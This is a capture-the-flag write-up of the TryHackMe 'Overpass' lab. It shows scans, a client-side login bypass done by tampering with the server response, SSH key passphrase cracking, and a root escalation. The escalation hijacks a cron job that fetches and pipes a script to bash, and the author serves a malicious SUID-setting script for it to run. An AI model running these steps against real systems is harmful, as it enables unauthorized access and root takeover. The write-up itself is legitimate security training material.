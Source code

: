 Recently, I decided to give the Overpass box a try on TryHackMe since it was on my bucketlist for a while. This is my writeup for the particular box.
I started my testing with a simple nmap scan using:
`nmap -sC -sV -oN nmapscan.txt 10.10.38.213 -v`
Here is the output of the nmap scan:
```
# Nmap 7.91 scan initiated Fri Apr 16 10:45:44 2021 as: nmap -sC -sV -oN /root/CTF/TryHackMe/Overpass/nmapscan.txt -vvv 10.10.38.213
Nmap scan report for 10.10.38.213
Host is up, received reset ttl 60 (0.18s latency).
Scanned at 2021-04-16 10:45:45 EDT for 21s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 60 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 16 10:46:06 2021 -- 1 IP address (1 host up) scanned in 21.95 seconds
```
The box looked relatively simple with port 22 open for SSH connections and port 80 open for HTTP traffic. I decided to enumerate the website running on port 80 since SSH is not a great target to start with. I left gobuster running on the background busting through all the sub-directories, while I manually looked around the website. For gobsuter I used the following command:
`gobuster dir -u http://10.10.38.213/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.html,.php,.js`
The output for the above command was:
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.38.213/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php,js
[+] Timeout:                 10s
===============================================================
2021/04/16 10:45:21 Starting gobuster in directory enumeration mode
===============================================================

/downloads            (Status: 301) [Size: 0] [--> downloads/]

/img                  (Status: 301) [Size: 0] [--> img/]      

/index.html           (Status: 301) [Size: 0] [--> ./]        

/login.js             (Status: 200) [Size: 1779]              

/main.js              (Status: 200) [Size: 28]                

/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  

/admin                (Status: 301) [Size: 42] [--> /admin/]  

/admin.html           (Status: 200) [Size: 1525]              

/css                  (Status: 301) [Size: 0] [--> css/]      

/404.html             (Status: 200) [Size: 782]               

/cookie.js            (Status: 200) [Size: 1502]              

[!] Keyboard interrupt detected, terminating.
===============================================================
2021/04/16 10:46:14 Finished
===============================================================
```
What particularly seemed interesting from the gobsuter results were `login.js` and the admin login panel at `/admin`. Regardless, I went on to the website and took a look. It looked something like this:

![home page](images/home.png) 

The about page had some interesting names but nothing more than that: 

![about page](images/about.png)

I moved on to the downloads section which had some interesting stuff going on with it:

![download page](images/downloads.png)

The source code for the binary seemed awfully interesting but on manual review, nothing seemed off about it except the fact that it was using ROT47 in the name of military grade encryption LOL.
Since nothing seemed off uptil now, I went on to the more concerning parts namely the `login.js` file. Upon a closer inspection I found a vulnerable function in `login.js`.

![login.js](images/login.png)

Do you see it? Look at:
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
We can bypass the `if` check easily by using an HTTP proxy like `BurpSuite`. So, naturally I opened up BurpSuite and intercepted the request for the login on `/admin`, then I had to intercept the response by setting capture response to this request to true.

![capture response](images/burp.png)

Simply removing the `Incorrect Credentials` would allow us bypass the check in the login function above. And that is exactly what I did.

![incorrect credentials](images/inc%20cred.png)
![no credential](images/no%20cred.png)

I refreshed the page after this and I had successfully bypassed the login. The new page presented me with an RSA private key.

![RSA Key](images/RSA.png)

I copied the key and saved it in a file. I ran `chmod 600` on the file to give it the proper permissions. Now I had to crack the passphrase for the key. I achieved this buy using `ssh2john` and `johntheripper`. First I ran `ssh2john RSA > johnrsa` and then I ran `john --wordlist=/usr/share/wordlists/rockyou.txt johnrsa`. The cracked passphrase turned out to be `james13`, and with this credential I was successfully able to ssh into the box by running `ssh -i RSA james@10.10.38.213` and supplying the password. 

![user shell via ssh](images/user%20shell.png)

SSH gave me the initial user shell but the real fun began with privilege escalation. Manually looking around seemed redundant at first glance, so I grabbed a copy of `linpeas.sh` and served it to the box using a `python -m http.server 80`.

![http server](images/http.png) 
![linpeas](images/linpeas.png)

Upon running `linpeas.sh` a peculiar cron job came under my attention. 

![cron job](images/cron.png)

This job was running every mintue with root privileges, it was basically downloading a file present in the given path `overpass.thm/downloads/src/buildscript.sh` and piping it to bash. The cherry on top was the file used to resolve a particular IP address to `overpass.thm` namely the `/etc/hosts` file was writeable by the current user according to linpeas.sh.

![/etc/hosts](images/etc.png)

So I opened up the `hosts` file and made it so that `overpass.thm` resolved to my `tun0` IP (OpenVPN IP).

![edit](images/edit.png)

Now I went into the directory where I had the python http server running and recreated the path in the job namely `/downloads/src`. In the context of the path, I made my own malicious `buildscript.sh` with the following code:
```
#!/bin/bash
chmod +s /bin/bash
```
The idea here was to set the SUID bit for /bin/bash as the `root` user so anybody with an user account could run `/bin/bash` with elevated root privileges. After a one minute wait, the job ran as expected and my malicious script was run by the `root` user. Finally, a simple `/bin/bash -p` gave me access to a root shell and I had officially rooted the box.

![root](images/root%20shell.png)
